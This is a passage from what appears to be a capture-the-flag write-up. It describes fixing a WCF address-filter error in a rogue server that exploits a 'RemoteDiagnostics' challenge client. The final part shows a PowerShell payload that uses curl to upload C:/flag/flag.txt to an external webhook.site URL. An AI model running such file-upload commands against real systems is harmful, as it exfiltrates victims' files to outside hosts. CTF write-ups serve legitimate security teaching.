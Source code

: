 ![poc24.png](./writeup/imgs/poc24.png)

A quick Google search will lead you to [this StackOverflow post](https://stackoverflow.com/a/10217733) that explains that the error is a server-side error that occurs when there is a port mismatch between the client and server. The solution is to add a `ServiceBehavior` attribute to the server that specifies the `AddressFilterMode` to `Any`.

![poc25.png](./writeup/imgs/poc25.png)

After this change, the server is ready to exploit the challenge client. The full solution code can be found in [./src/RemoteDiagnostics/](./src/RemoteDiagnostics/).

I ran my server using the following payload:

```powershell
$env:cmd = 'curl.exe -T C:/flag/flag.txt https://webhook.site/12345678-1234-1234-1234-1234567890ab'

.\Solution.Server.exe
```
